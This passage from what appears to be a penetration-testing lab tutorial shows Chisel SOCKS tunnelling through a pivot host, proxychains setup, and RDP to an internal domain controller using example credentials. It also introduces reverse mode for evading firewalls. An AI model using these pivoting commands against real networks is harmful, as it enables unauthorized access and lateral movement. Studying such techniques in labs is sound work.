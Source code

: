 ### **Step 3: Connect Client from Attack Host**
```bash
# Start Chisel client
./chisel_1.7.6_linux_amd64 client -v 10.129.202.64:1234 socks

# Expected output:
# 2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
# 2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
# 2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
```

### **Step 4: Configure Proxychains**
```bash
# Edit proxychains configuration
sudo nano /etc/proxychains.conf

# Add SOCKS5 proxy entry
socks5 127.0.0.1 1080

# Comment out default SOCKS4 entry
#socks4 127.0.0.1 9050

# Verify configuration
tail -f /etc/proxychains.conf
```

### **Step 5: Use Tunnel for RDP**
```bash
# RDP to internal Domain Controller
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

# Alternative RDP tools
proxychains rdesktop 172.16.5.19
proxychains remmina
```

---

## **4. Reverse Mode - Server on Attack Host**

### **When to Use Reverse Mode**
- ✅ **Firewall blocks inbound connections** to pivot host
- ✅ **NAT restrictions** prevent external access
- ✅ **Egress-only** network policies
- ✅ **Better OPSEC** - server on attacker-controlled host

### **Architecture Overview**
```
[Attack Host] ← [Pivot Host] → [Internal Network]
Chisel Server   Chisel Client   Target Systems
Port 1234       Reverse Conn    172.16.5.0/23
SOCKS5 Listener R:socks         Domain Controller
```
